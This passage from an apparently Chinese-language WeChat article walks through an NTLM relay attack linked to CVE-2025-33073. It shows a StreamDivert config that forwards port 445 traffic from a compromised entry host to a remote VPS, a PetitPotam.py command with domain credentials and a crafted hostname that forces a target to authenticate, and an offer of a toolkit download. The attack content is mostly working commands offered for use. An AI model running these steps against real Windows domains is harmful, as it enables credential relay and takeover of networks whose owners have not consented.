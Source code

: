 ![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElfH6XY55PI6SvLlHHlic93ic817LicnyybF396Dl0hibAib7XofI34m5FDicw/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
在入口机搭建隧道，将本地 445 端口流量转发到远程 VPS 主机的监听端口。  
  
StreamDivert  
 配置文件如下：  
```
tcp < 445 0.0.0.0 -> 192.168.56.129 445
```  
```
5. 加载配置文件启动转发：
```  
```
shell StreamDivert.exe config.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElT7EdNQ1uYmNjnfeDgV2cZUJYHSmjc4ibib1oKo7nQ2Y2SIwCG21iaqQBg/640?wx_fmt=png&from=appmsg "")  
  
6.   
强制目标主机发起 NTLM 认证。  
```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El5omDmUWIhOEP9uPibfBtvkeHfWyNk5tEYBdOiawhibCTn6xDibSOKwcumQ/640?wx_fmt=png&from=appmsg "")  
  
7.   
攻击完成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2EljPh2GDQnJ6pmUcObLoxnrU8ZyWvtzW8VzozwicMwL46tQiaNP4JrnTEA/640?wx_fmt=png&from=appmsg "")  
  
0x05   
Windows 端口占用问题  
  
  
参考资料  
  
跟前面差不多，就不赘述了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElG9dDVFvaPEjG0fXuc7sjnicoicslXqhoTwnW3uvkwpYa2mBwYGSVeIoA/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
  
```
https://mp.weixin.qq.com/s/NrGyltW-f8a3Zqr0-4oYnw
```  
  
  
  
*  
  
后台回复“CVE-2025-33073”获得工具集下载地址  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rA9dDxDOarQvwxWqIZkXL6ibTEBOB4hNhtuJcQcLM3f3VKllE3RmlNIx2Tz5Djg4yptIxV5ibhUgDNEvFW6GZfQQ/640?wx_fmt=jpeg "")  
  
  
  
  
